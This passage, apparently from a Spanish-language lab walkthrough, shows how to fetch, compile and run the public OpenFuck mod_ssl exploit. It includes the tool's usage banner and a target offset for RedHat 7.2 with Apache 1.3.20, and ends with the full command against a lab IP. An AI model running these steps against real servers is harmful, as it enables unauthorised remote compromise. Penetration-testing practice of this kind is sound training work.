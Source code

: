 * [OpenLuck](https://github.com/heltonWernik/OpenLuck) Este tipo (Helton Wernik) se tomó el tiempo de actualizar el código fuente además de dar instrucciones para su compilación:
    1. Download OpenFuck.c
    : git clone https://github.com/heltonWernik/OpenFuck.git

    2. Install ssl-dev library
    : apt-get install libssl-dev

    3. It's Compile Time
    : gcc -o OpenFuck OpenFuck.c -lcrypto

    4.Running the Exploit
    : ./OpenFuck

```console
*******************************************************************
* OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

: Usage: ./OpenFuck target box [port] [-c N]

  target - supported box eg: 0x00
  box - hostname or IP address
  port - port for ssl connection
  -c open N connections. (use range 40-50 if u dont know)
```


Acá es donde se vuelve importante la versión de sistema operativo y Apache que enumeramos previamente:
```console
0x6a - RedHat Linux 7.2 (apache-1.3.20-16)1
0x6b - RedHat Linux 7.2 (apache-1.3.20-16)2
```

Voy a ir por la primera, el comando sería:

>**`./OpenFuck 0x6a 100.0.0.107 -c 50`**

